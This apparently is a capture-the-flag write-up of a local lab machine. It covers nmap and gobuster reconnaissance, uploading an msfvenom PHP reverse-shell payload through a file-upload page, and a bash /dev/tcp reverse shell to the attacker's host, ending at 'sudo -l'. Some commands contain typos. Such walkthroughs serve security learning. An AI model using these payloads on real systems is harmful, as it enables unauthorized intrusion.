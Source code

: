 
![Pasted image 20250205134718](https://github.com/user-attachments/assets/c559485b-954b-4aaa-b2c9-78db12544ae2)

We test the connection with the victim machine

```bash
ping -c 1 172.17.0.2
```
![image](https://github.com/user-attachments/assets/ca42314b-8c8c-4636-8527-5ec06a9783e6)

    ttl =64 ==> linux OS

As the victim machine is within reach, we will send a request for a response with the ports that are open.

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
```
![image](https://github.com/user-attachments/assets/cb381a7f-8e0f-4e96-83b5-09b4d86167f5)

    -oG AllPorts = save the output in the AllPorts file.

Now we launch a port scan

```bash
nmap -sCV -p80 172.17.0.2 -oN targeted
```
![image](https://github.com/user-attachments/assets/be9abb3a-7a49-42e6-94d0-7993b2212504)

With this we only conclude that our attack will focus only on port 80 which is the web page, so we will analyze it.

![image](https://github.com/user-attachments/assets/d60cf894-e4d3-41c4-be9a-1bb7dac9ae1c)

It is a simple website to upload files and store them so we will upload test files to see what formats it accepts.

![image](https://github.com/user-attachments/assets/11ec69e4-ae17-42ea-992f-578f6ac82d21)
![image](https://github.com/user-attachments/assets/6fc481b1-b4d8-40fe-a6c6-b72f6366251f)
![image](https://github.com/user-attachments/assets/bb387ee1-c8a5-4c22-9d4d-53a600cb5005)
![image](https://github.com/user-attachments/assets/fdcaa1af-ce50-4426-82a0-024d6d5ffbdd)

We have managed to upload the files but we do not know where they are so we will apply fuzzing to discover new directories.
```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh,html,js
```
![image](https://github.com/user-attachments/assets/4cb06ba9-d0a3-44d3-8c88-542e7cafb43e)
![image](https://github.com/user-attachments/assets/b99a440d-9023-4202-9584-f063d335b13a)

As we can see we find the destination where our files are stored, so if we can upload a malicious file to get a revershell we could have access to the machine.
```bash
msfvenom -p php/reverse_php LHOST=192.168.1.228=443 -f raw >ARCHIVO_NEW.php
```
![image](https://github.com/user-attachments/assets/7492d350-4877-40bd-a8f8-109315f00545)
![image](https://github.com/user-attachments/assets/c313d3ae-14aa-4676-8aca-9f3daedcb7fd)

We will upload our malicious file

![image](https://github.com/user-attachments/assets/76debd5b-3d09-4248-b8be-841cb1454b39)
![image](https://github.com/user-attachments/assets/608e6707-f2fd-49b9-a47e-3f74d27c12b6)

we go into listening mode

![image](https://github.com/user-attachments/assets/8a99c7f9-9376-45f2-9c6a-dba95150719b)

we open our malicious file

![image](https://github.com/user-attachments/assets/1b72181e-44c5-4d1a-bf28-54c93568d82c)

we have conexion!!!

![image](https://github.com/user-attachments/assets/03b641b6-97cd-4fc6-96db-941fd855c6ec)

To stabilize the connection we will send the traffic to another of our ports.
```bash
nc nlvp 444
```
![image](https://github.com/user-attachments/assets/8ef08de8-fa7f-4353-b569-5468cebabdaf)


```bash
bash -c "sh -i >& /dev/tcp/192.168.1.228/444 0>&1"
```
![image](https://github.com/user-attachments/assets/d671a70c-f134-40f5-b447-2fe1407e95d4)

We already have a new connection

![image](https://github.com/user-attachments/assets/ccc3cd25-5388-4e40-b689-58111ec9aa1c)

now we will make a treatment of the tty

```bash
script /dev/null -c bash
"CTRL+Z"
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```
Finally we have a treated and stabilized tty

![image](https://github.com/user-attachments/assets/7618d11b-74e2-4a92-b1b8-c845616ac316)

Now we will escalate privileges

```bash
sudo -l
```
![image](https://github.com/user-attachments/assets/89003549-6cc4-405f-9eb1-0aec574ae83c)
![image](https://github.com/user-attachments/assets/f8135744-7786-4d69-876f-bcc989e65687)





